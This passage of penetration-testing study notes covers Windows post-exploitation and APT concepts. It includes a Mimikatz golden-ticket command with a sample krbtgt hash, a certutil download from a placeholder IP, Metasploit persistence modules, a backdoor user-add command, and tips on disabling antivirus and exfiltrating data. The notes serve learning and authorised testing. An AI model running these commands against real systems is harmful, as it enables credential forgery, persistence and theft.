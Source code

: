            - `kerberos::golden /User:<fake-user> /domain:<domain> S-1-5-21-4193793478-4101164478-96150210 /krbtgt:9f51b795ef306e33f3931ccfb75930ef /id:500 /ptt`: for explanation see above
  - File transfer
    - Certutil (like wget for windows): `certutil.exe -urlcache -f http://IP/file.txt file.txt`
    - IWR (like wget for windows): `Invoke-WebRequest -Uri "http://www.test.com" -OutFile "C:\path\file"`
    - HTTP python server: `python -m SimpleHTTPServer 80`
    - FTP python server: `python -m pyftpdlib 21` 
  - Maintaining access
    - Metasploit modules
      - `exploit/windows/local/persistence`
      - `exploit/windows/local/registry_persistence`
      - `scheduleme`
      - `schtaskabuse`
    - Add user: `net user <username> <password> /ADD`
  - Remember to clean up the system after the work!

### Advanced Persistent Threat (APT)

- What is it
  - Advanced: use sophisticated methods (zero day exploits, custom exploits...)
  - Persistent: attacker returns to target system over and over again, has a long-term goal and avoid being detected
    - Exfiltrate data, subtle control...
  - Threat: organized, funded and motivated
- Differences between APT and non-APT
  - Non-APT: smash and grab, like a robbery, a lot of noise and fast interaction
  - APT: exfiltrate large amount of data in long periods, stealthy
- Types
  - Crime: steal information or just make a fraud
  - Espionage (industry or state sponsored): gather intellectual property or trade secrets to gain competitive advantage
    - Gain and mantain access to information
    - Don't destroy systems, don't interrupt normal operations
    - Stay hidden and keep stolen data flowing
    - Often starts from spear phishing
- Hiding
  - If an APT criminal is discovered he wants to cover tracks
  - How
    - Cut outs: computers owned by legitimate organizations that have been pwned by the attacker and are used as a proxy
    - Dropper delivery services: services to distribute exploits and malware in a target organization; like an external agency that is payed to do the dirty work 
- Techniques in general
  - SQL injection to add malware to websites
  - Infected USB sticks drops
  - Infected hardware or software
  - Social engireering
  - Compromised human insiders (less often)
- Phases
  1. Targeting (footprinting): collect info about the target and perform vulnerability scanning, social engineering and spear phishing
  2. Access/compromise: gain access and collect credentials for further compromise, obfuscate intention using malware (like a bait to be more hidden)
  3. Reconnaissance: enumerate networks and systems (before temporarily disable antivirus and logging softwares to avoid being caught)
  4. Lateral movement: move through network to other hosts
  5. Data collection and exfiltration: estabilish connection points and exfiltrate via proxy
     - You could use a hard disk of a printer to exfiltrate data: look in the net and if you find something put those information in the printer, then exfiltrate 
     - If checks are being executed use covert channels
  6. Administration and maintenance: mantain access over time
     - Notification if something in the net (that could cause problems to our backdoor) is changed so that we can keep access also if the system attacked changes